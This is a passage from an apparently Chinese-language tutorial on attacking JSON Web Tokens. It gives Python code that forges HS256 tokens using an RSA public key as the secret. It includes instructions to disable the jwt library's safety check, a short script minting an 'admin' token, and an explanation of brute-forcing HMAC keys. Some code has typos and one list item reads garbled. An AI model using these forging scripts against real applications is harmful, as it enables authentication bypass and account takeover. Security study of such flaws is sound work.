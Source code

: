 ```
    sys.exit(0)

lines = pubkey.rstrip('\n').split('\n')
if len(lines) &lt; 3:
    sys.stderr.write('''Make sure public key is in a PEM format and
            includes header and footer lines!''')
    sys.exit(2)

hdr = pubkey.split('\n')[0]
ftr = pubkey.split('\n')[-1]
meat = ''.join(pubkey.split('\n')[1:-1])

sep = '\n-----------------------------------------------------------------\n'
for l in range(len(hdr), len(meat)+1):
    secret = '\n'.join([hdr] + filter(
        None,re.split('(.`{`%s`}`)' % l, meat)) + [ftr])
    sys.stdout.write(
            '%s--- JWT signed with public key split at lines of length %s: ---%s%s' % \
            (sep, l, sep, jwt.encode(claims, secret, algorithm='HS256',
                headers=headers).decode('utf-8')))
    secret += '\n'
    sys.stdout.write(
            '%s------------- As above, but with a trailing newline: ------------%s%s' % \
            (sep, sep, jwt.encode(claims, secret, algorithm='HS256',
                headers=headers).decode('utf-8')))
```

注意，因为jwt模块更新后，防止滥用，加入了强校验，如果指定算法为 HS256 而提供 RSA 的公钥作为 key 时会报错，无法往下执行，需要注释掉 **site-packages/jwt/algorithm.py** 中的如下四行：

[![](https://p2.ssl.qhimg.com/t01bc311e945bb7df7b.png)](https://p2.ssl.qhimg.com/t01bc311e945bb7df7b.png)

再把整个python代码流程精简一下，使用以下脚本即可，public.pem 为 RSA 公钥：

```
# -*- coding: utf-8 -*-

import jwt

public = open('public.pem', 'r').read()
prin(jwt.encode(`{`"user":"admin","id":1`}`, key=public, algorithm='HS256'))
```

[![](https://p1.ssl.qhimg.com/t0138f6f20f2bc30966.png)](https://p1.ssl.qhimg.com/t0138f6f20f2bc30966.png)

## 暴力破解密钥

当 alg 指定 HMAC 类对称加密算法时，可以进行针对 key 的暴力破解

其核心原理即为 jwt 模块的 decode 验证模式，

```
jwt.decode(jwt_json, verify=True, key='')
```
1. 签名直接校验失败，则 key 为有效密钥；
1. 因数据部分预定义字段错误：- jwt.exceptions.ExpiredSignatureError
- jwt.exceptions.InvalidAudienceError
- jwt.exceptions.InvalidIssuedAtError
- jwt.exceptions.InvalidIssuedAtError
- jwt.exceptions.ImmatureSignatureError导致校验失败，说明并非密钥错误导致，则 key 也为有效密钥；<li>因密钥错误
<ul>
1. jwt.exceptions.InvalidSignatureError
</ul>
导致校验失败，则 key 为无效密钥；
</li>